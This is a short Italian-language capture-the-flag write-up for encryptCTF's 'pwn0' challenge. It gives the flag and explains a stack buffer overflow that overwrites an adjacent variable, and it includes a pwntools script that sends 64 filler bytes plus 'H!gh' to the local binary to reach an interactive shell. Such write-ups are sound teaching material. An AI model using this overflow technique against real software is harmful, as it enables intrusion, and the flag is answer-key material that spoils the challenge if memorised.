 # Flag
encryptCTF{L3t5_R4!53_7h3_J05H}

# Write-up
1. Analizzo il codice C
2. Abbiamo due variabili: `josh` e `buffer`
3. `buffer` è dichiarata successivamente a `josh`, quindi tramite la lettura da input di `buffer` posso sovvrascrivere `josh`
4. Possiamo vedere che c'è il compare di `josh` con la stringa `"H!gh"`
5. Ci serviamo quindi di uno script Python per riempire buff e aggiungere successivamente `H!gh`
6. Attenzione: mettere r.interactive() in quanto viene eseguito come comando `system`
    ```python
    from pwn import *

    with process('./pwn0') as r:
        inp=b'A'*64+b'H!gh'
        r.sendline(inp)
        r.interactive()
    ```